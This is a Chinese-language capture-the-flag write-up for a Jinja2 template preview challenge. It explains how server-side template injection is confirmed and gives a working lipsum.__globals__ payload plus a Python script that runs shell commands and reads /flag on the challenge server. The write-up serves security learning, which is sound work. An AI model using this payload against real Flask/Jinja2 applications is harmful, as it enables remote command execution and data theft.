


# 31 渲染一下 · Web

- 分类：Web ｜ 分值：200 ｜ 状态：平台已解
- 一个「实时渲染小工具」，左边写模板右边出预览，后端是 Jinja2，直接 SSTI 命令执行读 `/flag`。

## 题目

- 题号 31，题名「渲染一下」，题面无正文，出题人 chen。
- 动态容器，页面标题「渲染一下 实时渲染小工具 · 0.3.1-dev」，底部写着「可用占位：`{{name}}` `{{date}}` `{{tool}}`」「预览在服务端完成」。

## 思路

- 底部那句「预览在服务端完成」是关键：不是前端模板，而是后端真渲染，`{{7*7}}` 一类表达式必然生效。
- 站点自己就提示了三个可用变量，先确认模板引擎：`{{7*7}}` 回显 49 → Jinja2。
- Jinja2 的经典逃逸链：`lipsum.__globals__['os'].popen(cmd).read()`，`lipsum` 是 Flask 默认注入的全局函数，不需要额外对象。
- 接口是 `POST /preview`，body 为 `{"src": "<模板>"}`，返回 JSON，渲染结果在 `html` 字段里。

## 关键步骤

1. 打开 `/preview`，输入 `{{7*7}}`，右侧预览出 `49`，确认服务端模板注入。
2. 构造 `{{lipsum.__globals__['os'].popen("id; ls -la /; cat /flag 2>/dev/null; ls -la /app 2>/dev/null").read()}}`。
3. 一次性拿到 `id`、根目录列表和 `/flag` 内容。
4. 从返回的 `html` 里正则取 flag。

```python
import json, urllib.request, re

URL = 'http://103.85.23.250:30686/preview'

def render(src):
    data = json.dumps({'src': src}).encode()
    r = urllib.request.Request(URL, data=data, headers={'Content-Type': 'application/json'})
    with urllib.request.urlopen(r, timeout=20) as resp:
        return json.loads(resp.read().decode())

cmd = 'id; ls -la /; cat /flag 2>/dev/null; ls -la /app 2>/dev/null'
src = "{{lipsum.__globals__['os'].popen(\"%s\").read()}}" % cmd
out = render(src)
print(out['html'])
print(re.search(r'S3C\{[^}]*\}', out['html']).group(0))
```

实测回显（`uid=33(www-data)`，根目录下 `flag` 为 18 字节，直接 `cat` 出内容）：



工具页面里同样的 payload 在右侧预览区直接渲染出命令结果：



## Flag

```text
S3C{b41b79d4415a}
```

## 踩坑 / 备注

- 页面写着「.0.3 挂了 script，应该没事了」——只挡了前端 `<script>`，服务端模板注入完全没受影响。
- 一次 payload 里塞多条命令（`id; ls; cat`）比逐条试快，也顺便确认了容器里的路径。
